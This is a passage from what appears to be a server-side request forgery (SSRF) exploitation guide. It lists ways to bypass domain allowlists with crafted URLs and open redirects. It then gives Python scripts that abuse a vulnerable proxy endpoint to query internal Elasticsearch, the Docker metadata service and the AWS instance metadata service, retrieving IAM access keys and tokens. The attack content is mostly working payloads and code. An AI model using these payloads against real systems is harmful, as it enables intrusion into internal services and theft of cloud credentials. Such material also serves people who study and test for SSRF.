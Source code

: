 ### Bypassing Allowlisting

When only certain domains are allowed:

1. **Subdomain exploitation**: If `example.com` is allowed, try `internal.example.com.attacker.com`
2. **Path traversal in URL**: `https://allowed-domain.com@malicious-domain.com`
3. **Credentials in URL**: `https://allowed-domain.com:password@malicious-domain.com`
4. **Open redirects**: Find an open redirect on the allowed domain

```
https://vulnerable-app.com/fetch?url=https://allowed-domain.com/redirect?url=http://internal-service/
```

## Advanced SSRF Exploitation Examples

### Accessing Internal Services

#### Targeting Internal Web Interfaces

```python
# Using Python requests to simulate a SSRF attack against Elasticsearch
import requests

# The vulnerable endpoint
url = "https://vulnerable-app.com/proxy"

# Target the internal Elasticsearch instance
payload = {"url": "http://localhost:9200/_cat/indices"}

r = requests.post(url, json=payload)
print(r.text)  # This might reveal all Elasticsearch indices
```

#### Exploiting Docker Metadata Service

```
https://vulnerable-app.com/fetch?url=http://169.254.170.2/v2/metadata
```

### Cloud Infrastructure Attacks

#### AWS IAM Credential Theft

```python
import requests

# The vulnerable endpoint
target = "https://vulnerable-app.com/proxy"

# Step 1: List available IAM roles
r1 = requests.post(target, json={
    "url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"
})
role_name = r1.text.strip()

# Step 2: Get the credentials for the identified role
r2 = requests.post(target, json={
    "url": f"http://169.254.169.254/latest/meta-data/iam/security-credentials/{role_name}"
})

print(r2.text)  # This contains AccessKeyId, SecretAccessKey, and Token
```
